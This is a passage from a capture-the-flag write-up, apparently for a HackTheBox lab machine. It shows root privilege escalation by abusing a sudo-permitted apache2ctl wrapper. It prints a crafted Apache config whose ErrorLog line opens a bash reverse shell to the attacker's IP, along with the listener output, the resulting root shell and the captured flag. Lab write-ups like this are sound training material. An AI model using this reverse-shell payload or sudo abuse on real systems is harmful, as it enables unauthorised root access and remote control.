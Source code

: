 ## Shell as root

i then check for **[gtfobins](https://gtfobins.github.io/gtfobins/apache2ctl/)** but the available one was **[apache2ctl](https://manpages.debian.org/testing/apache2/apache2ctl.8.en.html)**.

But from my understanding, we need to insert **payload/revshells** in ``.conf`` that then will for ``sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/FILE.conf``

<img width="743" height="820" alt="image" src="https://github.com/user-attachments/assets/1da77d53-43f1-4b15-a4b7-cc035120482f" />

So i went to look for minimal conf for apache and all, but still it's not working. That's when i do my sanity check and refer from **[this](https://dudenation.github.io/posts/guardian-htb-release-area-machine/#apache-config)**.  

Payload used:
```
# shell.conf
LoadModule mpm_prefork_module /usr/lib/apache2/modules/mod_mpm_prefork.so
ServerRoot "/etc/apache2"
ServerName localhost
PidFile /tmp/apache-rs.pid
Listen 127.0.0.1:8080
ErrorLog "|/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.113/1236 0>&1'"
```
Setup a listener
```
┌──(kali㉿kali)-[~/Desktop/HTB/Guardian]
└─$ penelope -p 1236
[+] Listening for reverse shells on 0.0.0.0:1236 →  127.0.0.1 • 192.168.134.128 • 10.10.14.113
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
run the tools with the conf contain payload
```
mark@guardian:/home/jamil$ nano /home/mark/confs/shell.conf
mark@guardian:/home/jamil$ cat /home/mark/confs/shell.conf
# shell.conf
LoadModule mpm_prefork_module /usr/lib/apache2/modules/mod_mpm_prefork.so
ServerRoot "/etc/apache2"
ServerName localhost
PidFile /tmp/apache-rs.pid
Listen 127.0.0.1:8080
ErrorLog "|/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.113/1236 0>&1'"
mark@guardian:/home/jamil$ sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/shell.conf 
```
**BOOM!** We then get shell
```
┌──(kali㉿kali)-[~/Desktop/HTB/Guardian]
└─$ penelope -p 1236
[+] Listening for reverse shells on 0.0.0.0:1236 →  127.0.0.1 • 192.168.134.128 • 10.10.14.113
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from guardian~10.10.11.84-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [2], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/guardian~10.10.11.84-Linux-x86_64/2025_10_25-04_26_07-156.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────
root@guardian:/etc/apache2# whoami
root
root@guardian:/etc/apache2# cat /root/root.txt
f7f31b57126f6dbb9e34b975953800b7
```
